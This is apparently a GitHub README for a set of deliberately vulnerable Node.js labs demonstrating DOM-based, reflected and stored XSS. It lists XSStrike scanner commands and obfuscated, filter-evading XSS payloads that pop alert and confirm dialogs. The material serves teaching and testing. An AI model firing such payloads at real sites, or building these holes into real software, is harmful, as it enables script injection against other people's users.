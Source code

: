# Node-XSS-labs
Most of the XSS labs online are based on PHP backend. So I developed three simple labs to demonstrate XSS vulnerabilities (DOM-based, reflected and stored) on a Node.js server. The labs are tested with XSStrike for vulnerabilities. The labs are build on Javascript, ejs, Node.js and Express.

### DOM-based XSS
[https://corbe30.github.io/Node-XSS-labs/dom_based_xss/](https://corbe30.github.io/Node-XSS-labs/dom_based_xss)

**Payload** : ```alert(1)```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/dom-based-xss.png) 

<br />

### Reflected XSS
[https://reflected-xss.onrender.com/](https://reflected-xss.onrender.com/)

**XSStrike Query** : ```python .\xsstrike.py -u "http://localhost:3000/?txt1=a"``` \
**Generated Payload** : ```<HtmL%0aONpoiNtereNteR%0d=%0d[8].find(confirm)%0dx>```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/reflected-xss.png)
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/reflected-xss-xsstrike.png)

<br />

### Stored XSS
[https://stored-xss.onrender.com/](https://stored-xss.onrender.com/)

**XSStrike Query** : ```python .\xsstrike.py -u "http://localhost:3000/?txt1=a&txt2=a" -f default``` \
**Generated Payload** : ```'"</Script><Html Onmouseover=(confirm)()//<imG/sRc=l oNerrOr=(prompt)() x>```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/stored-xss.png)
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/stored-xss-xsstrike.png)

<br />

# How to Run
1. Install dependencies with ```npm install```
2. Run server with ```node script.js```

